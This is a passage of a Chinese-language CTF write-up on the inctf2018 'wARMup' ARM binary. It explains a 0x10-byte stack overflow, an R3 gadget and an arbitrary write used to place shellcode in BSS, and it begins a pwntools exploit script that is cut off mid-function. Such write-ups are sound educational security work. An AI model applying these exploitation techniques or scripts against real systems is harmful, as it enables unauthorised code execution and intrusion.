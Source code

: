 ```
    sh.sendline(shell_code)
    sh.sendline(payload)
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

### <a class="reference-link" name="%E4%BB%A5inctf2018-warmup%E4%B8%BA%E4%BE%8B"></a>以inctf2018-warmup为例

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-070759.png)

程序为ARM-32-dynamically linked程序。

明显存在栈溢出漏洞。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-070904.png)

但是这次我们只能溢出0x10个字节，并且程序中看似没有什么好用的gadget。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-074924.png)

注意到程序中存在一个可以控制R3的gadget，并且可以利用main函数中的汇编语句完成任意地址写。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-075222.png)

那么我们可以向BSS段写入shellcode并执行。

#### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='arm'

Deb =False

wARMup=ELF('./wARMup', checksec = False)

libc=ELF("/usr/arm-linux-gnueabi/lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    elif Deb:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
```